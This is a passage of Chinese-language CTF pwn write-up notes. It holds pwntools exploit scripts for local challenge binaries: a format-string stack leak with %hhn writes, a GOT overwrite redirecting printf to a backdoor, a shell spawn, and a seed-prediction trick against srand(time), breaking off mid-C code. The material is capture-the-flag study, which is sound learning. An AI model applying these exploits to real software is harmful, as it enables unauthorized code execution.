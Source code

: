     io.sendline(b'/bin/sh\x00')
    io.interactive()

    ```

## 2022

+ babyfmt

  + gdb下断在printf 断在第二个 输入%p%p%p%p%p 泄露下栈上相邻的内存
  + 第一个就为最相邻的参数，得到0xffffce8c，使用fmtstr 0xffffce8c 快速计算偏移
    + `pwndbg> fmtarg 0xffffce8c The index of format argument : 12 ("\%11$p") `
  + ```python
    from pwn import *
    io=process('./pwn')
    io.recvline()

    payload1 = b'%p'
    io.sendline(payload1)
    stack_value = int(eval(str(io.recv(10))),16)
    #attach(io)
    payload2 = p32(stack_value-0x30) + p32(stack_value-0x2f) + b'%125c%12$hhn' + b'%31c%11$hhn'
    io.sendline(payload2)

    io.interactive()

    ```
  + 方法二 修改got表 pinrtf->backdoor
    + ```python
      from pwn import *
      p=process('./pwn')
      payload=fmtstr_payload(11,{0x0804a010:0x0804859b})
      p.sendafter("\n",payload)
      p.send('/bin/sh')
      p.interactive()

      ```
  + 
+ random

  + 有趣的一题，猜数字，用同样的srand的seed(当前时间)生成rand即可
  + ```python
    from pwn import *
    p=process('./pwn')
    password=b'ls_4nyth1n9_7ruIy_R4nd0m?'.ljust(0x20,b'\x00')
    p.sendlineafter("username:",'a')
    p.sendlineafter("password:",password)
    proc=process("./calc")
    number=proc.recv()
    p.sendlineafter("Please tell me the number you guess now.",number)
    p.interactive()

    ```
  + ```c
    #include <stdio.h>
    #include <stdlib.h>
    #include <time.h>
    #include <string.h>
    int main(void)
    {
        srand((unsigned)time(NULL));
        int uVar2 = rand();
        int uVar3 = rand();
        int uVar4 = rand();
        srand(uVar4 ^ uVar2 ^ uVar3);
        rand();
        rand();